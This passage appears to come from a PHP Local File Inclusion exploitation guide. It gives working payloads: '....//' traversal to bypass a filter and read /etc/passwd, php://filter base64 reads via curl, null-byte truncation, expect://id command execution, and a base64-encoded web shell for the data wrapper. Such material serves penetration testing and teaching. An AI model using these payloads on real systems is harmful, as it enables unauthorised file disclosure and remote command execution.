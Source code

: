 ### Blacklisting

Some characters may be blacklisted and replaced. For example, this ```$something = str_replace('../', '', $_GET['SOMETHING']);``` replace the ```../``` by ```./``` so our previous ```../../../etc/passwd``` will be replaced by ```./etc/passwd```.
We will need to use the following payload : 
```console
http://SITE/index.php?SOMETHING=....//....//....//....//....//etc/passwd
```

> You can also use URL encoding. For example, replacing ```../``` by ```%2e%2e%2f```. For more URL encoding look at the [Bypass Techniques](#bypass-techniques) part.
{: .prompt-tip }

### Appended Extension 

If you try the basic LFI technique and the URL is redirected to ```http://SITE/index.php?SOMETHING=/etc/passwd.php``` then the server append the ```.php``` extension.
We can then try to navigate to :
```console
http://SITE/?SOMETHING=php://filter/read=convert.base64-encode/resource=FILE_TO_READ
```
We can use the curl command as follows :
```console
curl http://SITE/?SOMETHING=php://filter/read=convert.base64-encode/resource=FILE_TO_READ
```
And then use the ```base64 -d``` command to decode it.

We could also try to use the null byte ```%00``` to get rid of the extension :
```console
http://SITE/index.php?SOMETHING=/etc/passwd%00
```

## PHP Wrappers

### Except Wrapper

Wrappers allow us to execute commands, access files or URLs... Some basic example of its use is the following :
```console
http://SITE/index.php?SOMETHING=expect://id
```

### Data Wrapper

We have just seen how we can use the ```except``` wrapper. Now let's take a look at the ```data``` wrapper. 

> The following will only work if the ```allow_url_include``` is activated in the ```/etc/php/X.Y/apache2/php.ini``` file for ```Apache``` or if the ```allow_url_include``` is activated in the  ```/etc/php/X.Y/fpm/php.ini``` file for ```Nginx```.
{: .prompt-danger }

We can create a classic web shell like : 
```console
echo '<?php system($_GET['cmd']); ?>' | base64
```
